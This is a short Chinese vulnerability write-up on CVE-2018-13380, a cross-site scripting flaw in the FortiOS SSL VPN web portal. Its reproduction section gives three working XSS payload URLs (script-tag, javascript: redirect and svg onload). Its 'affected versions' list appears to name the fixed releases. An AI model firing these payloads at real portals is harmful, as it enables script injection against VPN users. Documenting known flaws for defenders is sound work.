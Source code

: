 ```yaml
---
title: （CVE-2018-13380）Fortinet FortiOS xss漏洞
id: zhfly2946
---
```


# （CVE-2018-13380）Fortinet FortiOS xss漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

## 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

```
http://www.0-sec.org/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E 
```

```
http://www.0-sec.org/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29 
```

```
http://www.0-sec.org/message?title=x&msg=%26%23<svg/onload=alert(1)>; 
```